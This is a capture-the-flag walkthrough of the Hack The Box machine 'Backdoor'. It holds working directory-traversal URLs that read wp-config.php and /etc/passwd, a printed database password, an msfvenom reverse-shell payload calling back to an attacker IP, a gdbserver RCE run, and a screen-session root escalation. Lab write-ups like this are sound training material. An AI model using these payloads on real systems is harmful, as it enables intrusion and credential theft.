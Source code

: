 ```yaml
---
layout: post
title: "HTB: Backdoor"
author: Andrew Cherney
date: 2023-02-16 17:35:05
tags: easy-box htb linux webapp wordpress 
icon: "assets/icons/backdoor.png"
post_description: "This box involves quite a bit of enumeration and creativity to solve for an easy box. First you need to identify the plugins of the wordpress site, then identify the vulnerable one. After that the processes are to be read and scoured for a foothold after discovering a vulnerable service on port 1337. Root can then be obtained by attaching a detached root screen."
---
```


<h1>Summary</h1>

{{ page.post_description }}

<h1>Enumeration</h1>

```bash
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Retired/Backdoor]
└──╼ $nmap -Pn -sC 10.10.11.125
Starting Nmap 7.92 ( https://nmap.org ) at 2023-02-16 17:44 CST
Nmap scan report for 10.10.11.125
Host is up (0.055s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
| ssh-hostkey: 
|   3072 b4:de:43:38:46:57:db:4c:21:3b:69:f3:db:3c:62:88 (RSA)
|   256 aa:c9:fc:21:0f:3e:f4:ec:6b:35:70:26:22:53:ef:66 (ECDSA)
|_  256 d2:8b:e4:ec:07:61:aa:ca:f8:ec:1c:f8:8c:c1:f6:e1 (ED25519)
80/tcp open  http
|_http-title: Backdoor &#8211; Real-Life
|_http-generator: WordPress 5.8.1

Nmap done: 1 IP address (1 host up) scanned in 19.01 seconds
```

<h2>Port 80 - http</h2>

{% include img_link src="/img/backdoor/front_page" alt="front_page" ext="png" trunc=500 %}

There is a basic wordpress site with nothing immediately out of the ordinary. I toss out a dirb scan but only the usual files and directories reveal themselves. A good place from here is to look at what plugins (if any) are being run. 

<h2>Wordpress Plugins</h2>

![plugin screen](/img/backdoor/wp_content.png)

<h3>ebook-download</h3>

Well there is something here. I throw out a search on exploit-db and would you believe I find [this directory traversal vulnerability](https://www.exploit-db.com/exploits/39575). There is a php file named **filedownload.php** that I can use **../..** to travel up directories and download anything that www-data can access. Obvious next step here is to grab **wp-config.php** and look for hard coded passwords, then read **/etc/passwd**. 

```
http://10.10.11.125/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../wp-config.php
http://10.10.11.125/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../../../../etc/passwd
```

wp-config contained:

```
define( 'DB_NAME', 'wordpress' );

/** MySQL database username */
define( 'DB_USER', 'wordpressuser' );

/** MySQL database password */
define( 'DB_PASSWORD', 'MQYBJSaD#DxG6qbm' );
```

**/etc/passwd** for a potential user contained:

```
user:x:1000:1000:user:/home/user:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
mysql:x:113:118:MySQL Server,,,:/nonexistent:/bin/false
```

I suppose I can try to login, but that password does not work for user. Additionally those names do not work with the password to login to Wordpress. Okay, so my guess here is the SQL service that these credentials work with is exposed and didn't trip in the initial scan.

```bash
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Retired/Backdoor]
└──╼ $nmap -Pn -sC 10.10.11.125 -p 1337
Starting Nmap 7.92 ( https://nmap.org ) at 2023-02-16 19:06 CST
Nmap scan report for 10.10.11.125
Host is up (0.048s latency).

PORT     STATE SERVICE
1337/tcp open  waste
```

<h2>Process Reading</h2>

Well that's not SQL, probably useful though. From here I have the ability to read files accessible to www-data and I need to use it to gain more knowledge somehow. The best thing I could think of is **/proc** contains all running processes and I can read <code>/proc/#/cmdline</code> to see what commands or services are active. I'll boot up burpsuite and fuzz the process numbers and go from there. 

```
http://10.10.11.125/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../../../../proc/#/cmdline
```

I will alternatively write a bash script since it will be quicker and I can use grep to sort out results.

```
#!/bin/bash

for i in {1..2000}
do
curl "http://10.10.11.125/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../../../../proc/$i/cmdline" > ./prc/$i
done
```

<h1>User as user</h1>

<h2>gdbserver RCE</h2>

```
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Retired/Backdoor/prc]
└──╼ $grep -iR --text "1337"
853:../../../../../../proc/853/cmdline../../../../../../proc/853/cmdline../../../../../../proc/853/cmdline/bin/sh-cwhile true;do su user -c "cd /home/user;gdbserver --once 0.0.0.0:1337 /bin/true;"; done<script>window.close()</script>
```

That service on port 1337 is gdbserver. Okay ... if I search that service on exploit-db and find an RCE script of a specific version. I need to make a payload with msfvenom, then run the python script and set up a listener. Let's give this a shot. 

```bash
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Retired/Backdoor]
└──╼ $msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.14 LPORT=7777 PrependFork=true -o rev.bin
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 106 bytes
Saved as: rev.bin
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Retired/Backdoor]
└──╼ $python3 gdbexploit.py 10.10.11.125:1337 rev.bin 
[+] Connected to target. Preparing exploit
[+] Found x64 arch
[+] Sending payload
[*] Pwned!! Check your listener
```

```bash
┌─[✗]─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Retired/Backdoor]
└──╼ $nc -nvlp 7777
listening on [any] 7777 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.11.125] 44424
whoami
user
cat user.txt
de65d53143451-------------------
```

<h1>Root</h1>

<h2>screen</h2>

While I was scouring through the processes I did come across one for the command screen. 

```bash
ps -aux | grep screen
root         857  0.0  0.0   2608  1836 ?        Ss   Feb16   0:05 /bin/sh -c while true;do sleep
 1;find /var/run/screen/S-root/ -empty -exec screen -dmS root \;; done
```

This seems to imply there is a root screen that is currently detached. To gain root I need to create a terminal, and then export a TERM for screen to default to, then attach the root session. It took a little troubleshooting but <code>script /dev/null</code> fixes an error that screen sometimes has.

```bash
script /dev/null                                                                
Script started, file is /dev/null                                               
$ export TERM=xterm                                                             
export TERM=xterm                                                               
$ screen -r root/root  
root@Backdoor:~# cat /root/root.txt                                             
cat /root/root.txt                                                              
fdb2aa71188f4-------------------
```

